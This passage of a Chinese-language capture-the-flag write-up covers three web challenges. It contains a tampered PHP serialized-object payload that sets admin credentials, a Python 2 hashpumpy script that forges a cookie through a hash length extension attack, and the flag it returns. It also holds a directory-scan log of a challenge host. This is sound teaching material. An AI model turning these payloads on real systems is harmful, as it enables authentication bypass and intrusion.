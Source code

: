 网页提示“备份网站”，扫描发现网站根目录下存在“www.zip”，下载得到源码，是php变量覆盖和反序列化的绕过

O:4:"Name":2:{S:8:"username";s:5:"admin";S:8:"password";s:8:"password";}

### 21.你有初恋吗
> 出题人：7h1n9
> 你变心了吗
> 地址:http://cxc.design/53a5734d6c99f89a

网页源码里有php源码，使用hash长度扩展攻击
```python
# python2
import hashpumpy
import urllib,urllib2

res = hashpumpy.hashpump('6a1ce5f4dc83320710006a786ac82c17', 'syclover', 'tail', 15)

print res[0]
print urllib.quote(res[1])


url='http://cxc.design/53a5734d6c99f89a/'
headers = { 'User-Agent':'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36' }
data='lover='+urllib.quote(res[1])
opener = urllib2.build_opener()
opener.addheaders.append(('Cookie','Heart='+res[0]))
req = urllib2.Request(url=url, data=data, headers=headers)
response = opener.open(req)
response = response.read()
print response
```
返回flag
```
Syc{D0_Y0u_l0v3_M3???}
```

### 22.Finalsql
> 出题人：cl4y
> sql你太美:
> 地址:http://118.25.14.40:8104/

### 23.你读懂潇文清的网站了吗
> 出题人：Ayrain
> xxe
> 地址:http://148.70.59.198:29173/


[19:19:07] 200 -    0B  - /config.php
[19:19:07] 200 -    0B  - /config.php
[19:19:16] 301 -  322B  - /html  ->  http://148.70.59.198:29173/html/
[19:19:18] 200 -    2KB - /index.php
[19:19:18] 200 -    2KB - /index.php
[19:19:18] 200 -    2KB - /index.php/login/
[19:19:36] 403 -  304B  - /server-status
[19:19:36] 403 -  305B  - /server-status/
[19:19:45] 200 -    0B  - /upload
[19:19:45] 200 -  528B  - /upload.php
[19:19:45] 301 -  325B  - /uploads  ->  http://148.70.59.198:29173/uploads/
[19:19:45] 403 -  299B  - /uploads/
[19:21:31] 200 -   14MB - /error.log
